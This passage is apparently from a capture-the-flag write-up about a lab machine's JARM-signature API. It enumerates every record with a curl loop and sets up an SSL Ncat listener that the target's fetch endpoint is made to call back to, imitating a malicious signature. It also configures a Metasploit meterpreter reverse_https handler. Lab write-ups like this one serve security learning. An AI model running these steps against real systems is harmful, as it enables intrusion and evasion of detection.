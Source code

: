 Extracting all data into a file:
```
for i in $(seq 0 300); do curl -s -X 'GET' "http://10.10.11.117/api/v1/search/id/$i" -H 'accept: application/json' | jq; done > jarmis-api_data.json
```

Searching for fields where _"ismalicious"_ is _true_:
```
cat jarmis-api_data.json | jq '. | select(.ismalicious==true)'
```

There are 223 IDs in total and 10 of them are malicious.

The ID 135 seems to be an **Ncat listener** and we can try imitate the signature with our own listener:
```json
{                                                                                                 
  "id": 135,                                                                                      
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": true,                  
  "endpoint": "104.24.4.98",
  "note": "Ncat",
  "server": ""
}
```

Starting **Ncat listener** with SSL:
```
nc -lvnp 443 --ssl
```

Fetching data from our endpoint:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=10.10.14.3' -H 'accept: application/json' | jq
```
```json
{
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": false,
  "endpoint": "10.10.14.3:443",
  "note": "Ncat?",
  "server": ""
}
```

The signature is the same, but the IP does not get marked as malicious because it could not fetch metadata and thus it cannot confirm if it is really **Ncat**.

The same method can be tested with a **Meterpreter listener** on **Metasploit**:
```
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set LHOST tun0

msf6 exploit(multi/handler) > run
```
